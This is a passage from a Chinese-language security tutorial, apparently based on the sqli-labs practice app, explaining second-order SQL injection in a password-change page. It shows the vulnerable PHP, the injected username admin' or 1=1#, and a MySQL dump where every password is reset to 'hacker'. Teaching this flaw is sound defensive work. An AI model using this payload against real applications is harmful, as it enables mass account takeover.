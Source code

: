 ```php
		{
			echo '<font size="5" color="#FFFF00"><center>';
			echo "Make sure New Password and Retype Password fields have same value";
			header('refresh:2, url=index.php');
		}
	}
```

可以看到，从数据库取出来的用户名并没有转义，而我们又可以向数据库插入可控的用户名，即输入的用户名第一次被转义（非过滤），但拿出来使用时并未做再转义，这种**写数据时转义，读数据时又未转义，造成了二次注入漏洞的发生**。如果第一次存储时直接将恶意字符过滤掉的话，那第二次使用就没有问题。

因此，我们可以采用如下的攻击步骤。

（1）注册一个专门用来攻击的用户名，比如 admin' or 1=1#，密码为 test。


<Image alt="Drawing 3.png" src="https://s0.lgstatic.com/i/image/M00/8C/A8/Ciqc1F_y7uyADPwTAAAt1pr_DYg213.png"/> 
  
图 4：注册新的用户名

（2）登录新注册的账号。


<Image alt="Drawing 4.png" src="https://s0.lgstatic.com/i/image/M00/8C/B3/CgqCHl_y7vSAQ8bBAAAv5Nno1cw204.png"/> 
  
图 5：登录新账号

（3）修改上面注册的用户密码为 hacker。


<Image alt="Drawing 5.png" src="https://s0.lgstatic.com/i/image/M00/8C/A8/Ciqc1F_y7vmAOmU8AABWHp3fjoI705.png"/> 
  
图 6：修改密码

（4）最终用户名 admin' or 1=1# 被注入 SQL 执行，导致所有用户密码都被修改为 hacker。

```sql
mysql> select * from users;
+----+----------------+----------+
| id | username       | password |
+----+----------------+----------+
|  1 | Dumb           | hacker   |
|  2 | Angelina       | hacker   |
|  3 | Dummy          | hacker   |
|  4 | secure         | hacker   |
|  5 | stupid         | hacker   |
|  6 | superman       | hacker   |
|  7 | batman         | hacker   |
|  8 | admin          | hacker   |
|  9 | admin1         | hacker   |
| 10 | admin2         | hacker   |
| 11 | admin3         | hacker   |
| 12 | dhakkan        | hacker   |
| 14 | admin4         | hacker   |
| 15 | 1              | hacker   |
| 17 | admin' or 1=1# | hacker   |
+----+----------------+----------+
15 rows in set (0.00 sec)
```
